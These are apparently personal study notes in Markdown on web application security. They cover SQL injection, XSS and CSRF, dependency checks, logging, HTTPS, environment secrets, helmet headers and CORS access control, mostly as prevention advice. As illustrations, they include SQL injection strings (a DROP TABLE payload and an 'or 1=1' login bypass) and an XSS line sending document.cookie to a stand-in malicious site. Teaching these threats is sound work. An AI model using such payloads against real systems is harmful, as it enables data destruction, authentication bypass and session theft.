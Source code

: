 # Security

## Important Topics

- injections
- 3rd party libraries
- logging
- HTTPS everywhere
- XSS & CSRF
- code secrets
- secure headers
- access control
- data management
- don't trust anyone
- authentication

## Injections

- injecting code elsewhere
  - most famous -> SQL injections
  - `''; DROP TABLE table_name; --`
  - `''; or 1=1--` -> for passwords
- images are injected into DOM after rendering
- `textnode` can help to textify and sanitise input

### How to avoid

- sanitise input (check inputs for expected inputs)
  - whitelist vs. blacklist
- parametrise queries (prepared statements)
  - pre-compile SQL statements
  - object relational mappers -> provide statements for us
- ORMs (object relational mappers) like Knex.js

## 3rd party libraries

- ensure that library is trustworthy
- check popularity (forks, stars, etc.) of package
- snyk is a tool to test node moudle dependencies

## Logging

- gather all information about user actions/behaviour
- **insufficient logging** can provide gap for hacker to take actions going unseen
- 2 packages for JS:
  - morgan (HTTP logger middleware)
  - winston (log everything)

## HTTPS everywhere

- SSL / TLS certificates
- https://letsencrypt.org/

## XSS & CSRF

### XSS - Cross-Side-Scripting

- allows attacker to execute script in client's server
- `window.location = 'new_bad_website?cookie='+ document.cookie`
- prevent through input sanitisation

### Cross Side Request Forgery

- create bad URL that has malicious code in it

### How to prevent

- sanitise inputs
- no `eval()`
- no `document.write()`
- [content security policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [secure + HTTPOnly cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

## Code secrets

- environmental variables
  - `process.env.NODE_ENV` by default
  - can define `.env` file for environmental variables
    - variables start with `REACT_APP_`
- commit history
  - NEVER add config files / passwords to git repo

## Secure headers

- `npm install helmet` -> [helmet docu](https://github.com/helmetjs/helmet)
- on server side (usually for express.js)
- middleware
- [HTTP headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
- [HTTP header fields](https://www.tutorialspoint.com/http/http_header_fields.htm)

## Access control

- having restriction on what authenticated users are allowed to do
- **principal of least privilige**
- `cors` middleware important to security (Cross Origin Ressource Sharing)
  - need to establish cors white list
  - otherwise access is unrestricted
